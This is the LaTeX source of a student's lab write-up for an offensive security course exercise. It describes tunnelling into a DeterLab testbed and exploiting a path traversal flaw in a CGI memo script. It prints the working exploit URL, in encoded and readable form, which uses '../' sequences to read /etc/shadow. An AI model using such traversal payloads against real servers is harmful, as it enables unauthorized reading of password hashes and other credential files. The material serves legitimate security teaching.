\documentclass[a4paper,11pt,hidelinks]{article}
%\usepackage[a-1b]{pdfx}
\usepackage{hyperref}

\usepackage{subfiles}
\usepackage{epsfig}
\usepackage{plain}
\usepackage{setspace}
%\usepackage{minted}
\usepackage{listings}

\usepackage{mdframed}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathabx}
\usepackage{tcolorbox}
\usepackage{multicol}
\usepackage[english]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=1.8cm]{geometry}
\usepackage{titlesec} 
\usepackage[utf8x]{inputenc} 

\hypersetup{colorlinks=true, urlcolor=blue}

\captionsetup{
  justification=centering,
  singlelinecheck=false,
  font=small,labelfont=bf,labelsep=space}

\begin{document}

\pagestyle{plain} 

\begingroup

\renewcommand{\cleardoublepage}{}
\renewcommand{\clearpage}{}

\titleformat{\section}
{\normalfont\Large\bfseries}{\thesection}{1em}{}


\renewcommand{\lstlistingname}{Code}%
\renewcommand{\lstlistlistingname}{List of \lstlistingname s}

\definecolor{codeBackground}{rgb}{0.9, 0.9, 0.9}

% Code environment
\lstnewenvironment{code}[1]{
    \mdframed[%
        backgroundcolor=codeBackground,
        shadow=false,
        linecolor=black!40,
        linewidth=2pt,
        topline=false,
        rightline=false,
        leftline=false
    ]%
    \lstset{%
        moredelim=**[is][\color{blue}]{**}{**},
        moredelim=**[is][\color{teal}]{.-}{-.},
        moredelim=**[is][\color{gray}]{||}{||},
        frame=single,
        framerule=0pt,
        basicstyle=\ttfamily,
        columns=fullflexible
    }%
}{% Spacing between and after caption + before end of mdframed
    \vspace{-1em}
    \endmdframed
    \vspace{-0.5em}
    \captionsetup{type=lstlisting}
    \caption{#1}
    \vspace{1.5em}
    \ignorespaces
}

\newpage

\title{Pathname exercise}
\author{Offensive Technologies 2021 \\    
Matteo Franzil \texttt{<matteo.franzil+github@gmail.com>}}
\maketitle

\section{Solution}

To solve the exercise, I first connected with SSH tunneling to the main server:

\begin{verbatim}
ssh -L 8118:server.franzil-pathame.offtech:80 otech2af@users.deterlab.net  
\end{verbatim}

With port forwarding now enabled, I visited the website on my browser (\url{http://localhost:8118/cgi-bin/memo.cgi}).

Solving the exercise is trivial if the Unix directory structure is known. Assume we want to visit any memo in the website. We are given a nice interface with a dropdown menu, but we can skip it altogether by visiting the Developer Tools with \verb=F12= and converting the form data into a query string:

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/devtools}
  \caption{Visiting the Developer Tools for converting the string.}
\end{figure}

So, for example, we can send this string in order to get our nice boss's welcoming memo:

\begin{code}{HTTP string for obtaining a memo.}
http://localhost:8118/cgi-bin/memo.cgi?memo=%2Fhome%2Fmegaboz%2Fmemo%2Fnew_CEO
  &Read+memo=Read+memo
\end{code}

As stated above, it looks like our query string is visiting what is actually the path \verb=/home/= \verb=megaboz/memo/....=. Even by being totally unaware of the underlying Perl code, we can abuse that notation by using directory skips (\verb=..=), going back to our root directory (\verb=/=), and visiting \verb=/etc/shadow/=.

\begin{code}{Code for exploiting the vulnerability.}
http://localhost:8118/cgi-bin/memo.cgi
  ?memo=%2Fhome%2Fmegaboz%2Fmemo%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fshadow
  &Read+memo=Read+memo

# Readable version:

http://localhost:8118/cgi-bin/memo.cgi
  ?memo=/home/megaboz/memo/../../../etc/shadow
  &Read+memo=Read+memo
\end{code}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{../drawable/result}
  \caption{Result of visiting that webpage.}
\end{figure}

The provided script saves the output to a file called \verb=shadow.txt=.

\endgroup
\end{document}